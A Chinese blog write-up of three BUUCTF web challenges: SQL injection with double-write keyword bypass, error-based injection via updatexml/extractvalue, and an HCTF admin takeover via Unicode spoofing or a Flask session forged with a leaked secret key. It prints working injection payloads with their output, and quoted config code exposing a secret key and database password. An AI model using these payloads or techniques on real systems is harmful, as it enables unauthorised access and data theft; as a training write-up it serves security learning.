 # BUUCTF web记录3


## 0x00 [极客大挑战 2019]BabySQL

[题目链接](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]BabySQL)

打开题目，还是熟悉的用户名密码注入界面

![image-20210721115109030](image-20210721115109030.png "网站首页")

首先判断闭合类型，用户名随便写，密码栏填个`b'`，发现报错，说明查询语句是单引号闭合。

![image-20210719170507319](image-20210719170507319.png "报错信息1")

然后尝试一下密码`b' or 1=1 #`，发现报错信息中只有`'1=1 #''`。一开始我也不知道是怎么回事，查阅资料之后才知道，原来有的waf会对`or`、`select`等SQL语句关键字做过滤，比如直接替换为空，所以这题要使用[双写绕过](https://blog.csdn.net/m0_51504576/article/details/115832188)。

![image-20210719170705563](image-20210719170705563.png "报错信息2")

试着使用union查询，输入`b' ununionion seselectlect 1,2,3 #`，显示成功登录信息，说明被查询的表的列数为3。

![image-20210721115510406](image-20210721115510406.png "回显信息")

接下来就是套路化的操作，精髓是使用`information_schema`等记录数据库自身信息的数据库，以及`group_concat()`函数。因为看到了2和3的回显，所以把2和3替换为其它表达式可以进行注入。

懒得放截图，直接把回显结果贴一下。

首先查看当前数据库

````sql
b' ununionion seselectlect 1,2,database() #
````

```
Hello 2！
Your password is 'geek'
```

查看所有数据库

````sql
b' ununionion seselectlect 1,2,group_concat(schema_name)frfromom (infoorrmation_schema.schemata) #
````

```
Hello 2！
Your password is 'information_schema,mysql,performance_schema,test,ctf,geek'
```

看到一个`ctf`库，再去爆这个数据库的表

```sql
b' ununionion seselectlect 1,2,group_concat(table_name)frfromom(infoorrmation_schema.tables) whwhereere table_schema="ctf" #
```

```
Hello 2！
Your password is 'Flag'
```

其中有个`Flag`表，然后再去爆字段

````sql
b' ununionion seselectlect 1,2,group_concat(column_name) frfromom (infoorrmation_schema.columns) whwhereere table_name="Flag"
````

```
Hello 2！
Your password is 'flag'
```

其中有`flag`字段，再去爆数据

```sql
b' ununionion seselectlect 1,2,group_concat(flag)frfromom(ctf.Flag)
```

拿到flag

```
Hello 2！
Your password is 'flag{b11bfeba-d864-4a0a-97f6-77e3ef266da9}'
```

个人感觉，这题的要点在于数据库本身信息数据库的内容，以及`group_concat`的使用，双写绕过其实是个很简单的东西。

### 参考链接：

- [information_schema数据库](https://www.cnblogs.com/kankanhua/p/6484972.html)

-  [group_concat()函数](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)

## 0x01 [极客大挑战 2019]HardSQL

[题目链接](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]HardSQL)

可以试出是单引号闭合，但是空格被过滤了，所以使用报错注入

![image-20210727113650753](image-20210727113650753.png "防止github page build失败")

这题的主要知识点就是利用`updatexml()`和`extractvalue()`函数进行报错注入。使用`concat()`函数，再加上`~`或者`@`等能够引起路径参数报错的字符，将形如`concat(0x7e, 语句, 0x7e)`这样的结果作为参数，就能够得到`XPATH syntax error: '回显结果'`这样的报错信息，实现注入。

### 参考链接：

- [https://blog.csdn.net/Xxy605/article/details/116999699](https://blog.csdn.net/Xxy605/article/details/116999699)
- [SQL报错注入攻击中的updatexml()函数](https://blog.csdn.net/weixin_45738112/article/details/105131866)

## 0x02 [HCTF 2018]admin

[题目链接](https://buuoj.cn/challenges#[HCTF%202018]admin)

这是一道很有趣的题，网站提供了注册、登录、修改密码等功能。

看源码大致可以感觉到，需要你以`admin`身份登录，才能够获取flag，但是`admin`是已经注册过的用户，所以在不知道`admin`密码的情况下无法登录。

![image-20210724184059694](image-20210724184059694.png "源码提示")

查阅一些wp之后，可以得到3种解法。

### 解法1：弱密码

这是很扯的一个解法，可以理解为，机缘巧合，直接试出来了`admin`的密码是`123`🤣，登录拿到flag

### 解法2：unicode欺骗

预期解之一。查看网页源码可以看到该web应用是一个flask应用，源码地址为[https://github.com/woadsl1234/hctf_flask](https://github.com/woadsl1234/hctf_flask)

![image-20210724184719396](image-20210724184719396.png "改密码界面的源码注释提示")

查看源码中的路由逻辑`routes.py`，其中的`login`与`change`路由处理逻辑使用了过时版本twisted框架中的`nodeprep.prepare()`函数，该函数会将`ᴬ`转换为`A`，然后转换为小写的`a`（这个知识点我也不知道获取的渠道是什么）。

```python
@app.route('/login', methods = ['GET', 'POST'])
def login():
    if current_user.is_authenticated:
        return redirect(url_for('index'))

    form = LoginForm()
    if request.method == 'POST':
        name = strlower(form.username.data) //<------就在这里使用了一个自定义的strlower()函数
        session['name'] = name
        user = User.query.filter_by(username=name).first()
        if user is None or not user.check_password(form.password.data):
            flash('Invalid username or password')
            return redirect(url_for('login'))
        login_user(user, remember=form.remember_me.data)
        return redirect(url_for('index'))
    return render_template('login.html', title = 'login', form = form)

...

def strlower(username):
    username = nodeprep.prepare(username)
    return username
```

{{< admonition tip >}}
所以Unicode欺骗的做法就是先注册一个`ᴬDMIN`用户，然后修改密码。在注册与修改密码的过程中username会发生如下转变`ᴬDMIN`->`Admin`->`admin`，所以相当于能够控制`admin`用户的密码，然后就能够以`admin`用户的身份登录，获取flag。
{{< /admonition >}}

### 解法3： 修改flask session

那个web应用是个flask应用，flask是将`session`保存在本地的，并且没有做加密，而是仅仅进行了签名以防篡改，而搜索源代码可以看到其签名使用的密钥为`ckj123`。

```python
import os

class Config(object):
    SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
    SQLALCHEMY_DATABASE_URI = 'mysql+pymysql://root:adsl1234@db:3306/test'
    SQLALCHEMY_TRACK_MODIFICATIONS = True
```

所以，我们可以用burp拦截普通用户登录后查看Index页面的请求，再使用[flask session编解码工具](https://github.com/noraj/flask-session-cookie-manager)解码拦截到的`session`，然后修改其中的用户ID，再重发请求，即可获得flag。

![image-20210726171651090](image-20210726171651090.png "解码")

将`name`改为`admin`，再进行签名。

![image-20210726172004692](image-20210726172004692.png "重新签名")

![image-20210726171919586](image-20210726171919586.png "重发拿到flag")

### 参考链接：

- [https://blog.csdn.net/mochu7777777/article/details/109302175](https://blog.csdn.net/mochu7777777/article/details/109302175)

- [Unicode Character Table](https://unicode-table.com/en/)
- [客户端 session 导致的安全问题](https://www.leavesongs.com/PENETRATION/client-session-security.html)


